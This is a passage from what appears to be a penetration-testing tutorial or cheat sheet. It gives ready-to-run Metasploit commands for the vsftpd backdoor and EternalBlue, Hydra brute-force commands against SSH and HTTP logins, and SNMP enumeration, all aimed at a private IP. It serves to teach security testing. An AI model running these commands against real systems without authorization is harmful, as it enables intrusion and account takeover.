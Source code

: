         `msfconsole use exploit/unix/ftp/vsftpd_234_backdoor set RHOST 192.168.1.1 run`
        

#### **4.2 Common Exploits**

*   **Example:**
    *   **SMB Exploit:** Exploiting SMB vulnerability like EternalBlue.
    *   **Command:**
        
        *   Using Metasploit for EternalBlue:
        
        bash
        
        Copy code
        
        `use exploit/windows/smb/ms17_010_eternalblue set RHOST 192.168.1.1 run`
        
    *   **SSH Exploit:**
        
        *   Using Hydra for brute-forcing SSH:
        
        bash
        
        Copy code
        
        `hydra -l root -P /path/to/wordlist.txt 192.168.1.1 ssh`
        
    *   **SNMP Exploit:**
        
        *   Using snmpwalk for SNMP enumeration:
        
        bash
        
        Copy code
        
        `snmpwalk -v 1 -c public 192.168.1.1`
        

#### **4.3 Password Attacks**

*   **Example:**
    *   **Brute Force Attack:** Attempting to crack passwords by trying all possible combinations.
    *   **Command:**
        
        *   Using Hydra for brute force on HTTP Basic Authentication:
        
        bash
        
        Copy code
        
        `hydra -l admin -P /path/to/passwords.txt 192.168.1.1 http-get /admin`
        
    *   **Comparison:**
        *   **Brute Force vs. Dictionary Attack:**
            *   **Brute Force:** Tries all possible combinations, slower but guarantees success.
            *   **Dictionary Attack:** Tries a list of common passwords, faster but may miss less common passwords.

### **5\. Post-Exploitation**

#### **5.1 Privilege Escalation**
